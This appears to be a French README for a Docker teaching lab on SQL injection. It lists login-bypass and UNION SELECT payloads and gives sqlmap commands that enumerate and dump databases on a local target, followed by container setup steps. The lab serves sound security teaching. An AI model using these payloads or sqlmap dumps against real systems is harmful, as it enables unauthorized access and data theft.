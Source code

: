 # Docker Injection SQL

![](readme_docs/287167c6.png)

Container Docker pour suivre le cours Injection SQL

# Injections SQL possibles

## Authentification sans mot de passe

`' or 1=1 -- `

> Ne pas oublier l'espace à la fin

## Enumération des utilisateurs

`' or 1=1 UNION SELECT * FROM users -- `

## Insertion d'un utilisateur dans la table users

`' or 1=1 UNION SELECT 'admin', 'admin', 'admin', 'admin' -- `

# SQLMap

sqlmap -u http://127.0.0.1:8000 --forms --dbs

![](readme_docs/86043759.png)

sqlmap -u http://127.0.0.1:8000 --forms --tables -D db_name

![](readme_docs/8f6b0a65.png)

sqlmap -u http://127.0.0.1:8000 --forms --dump -D db_name -T table_name

![](readme_docs/3137fd85.png)

# Lancement

Clonez le dépôt

```bash
git clone 
```

Lancez le container

```bash
bin/start
```

Accédez au shell du container MySQL

```bash
bin/shell
```

![](readme_docs/d0107619.png)

Lancement du client mysql (saisissez le mot de passe **root**)

```bash
root@94416fbdf8e8:/# mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

